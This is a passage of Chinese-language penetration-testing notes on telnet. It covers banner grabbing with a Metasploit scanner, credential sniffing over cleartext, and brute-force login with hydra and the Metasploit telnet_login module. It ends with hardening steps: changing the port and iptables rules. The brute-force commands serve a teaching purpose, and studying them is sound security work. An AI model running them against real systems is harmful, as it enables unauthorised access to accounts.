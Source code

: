 -   /etc/issue.net
-   msf
    -   use auxiliary/scanner/telnet/telnet\_version

### [](#%E4%BF%AE%E6%94%B9%E9%BB%98%E8%AE%A4%E7%AB%AF%E5%8F%A3-1)修改默认端口

-   /etc/services
-   sudo /etc/init.d/xinetd restart

### [](#%E9%80%9A%E8%BF%87%E5%97%85%E6%8E%A2%E7%AA%83%E5%8F%96%E5%87%AD%E6%8D%AE)通过嗅探窃取凭据

明文传输，可以嗅探

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200510144359.png-water_print](assets/1699409321-ee5fc5dcb02075668a11c39890daaed4.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200510144359.png-water_print")

### [](#%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3)暴力破解

#### [](#hydra-1)hydra

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>hydra -v -L user.txt -P pass.txt telnet://IP<br>``` |

#### [](#msf-5)msf

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```cmd<br>use auxiliary/scanner/telnet/telnet_login<br>set rhost<br>set stop_on_success true<br>set user_file user.txt<br>set pass_file pass.txt<br>run<br>``` |

### [](#%E4%BF%9D%E6%8A%A4-telnet-%E5%85%8D%E5%8F%97%E6%9A%B4%E5%8A%9B%E6%94%BB%E5%87%BB)保护 telnet 免受暴力攻击

-   将允许来自 IP 地址 192.168.1.1 的流量访问端口 23 上的 telnet 服务

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```bash<br>sudo iptables -A INPUT -s 192.168.1.1 -p tcp --dport 23 -j ACCEPT<br>``` |

-   drop 掉来自端口 23 上其它 IP 地址的流量

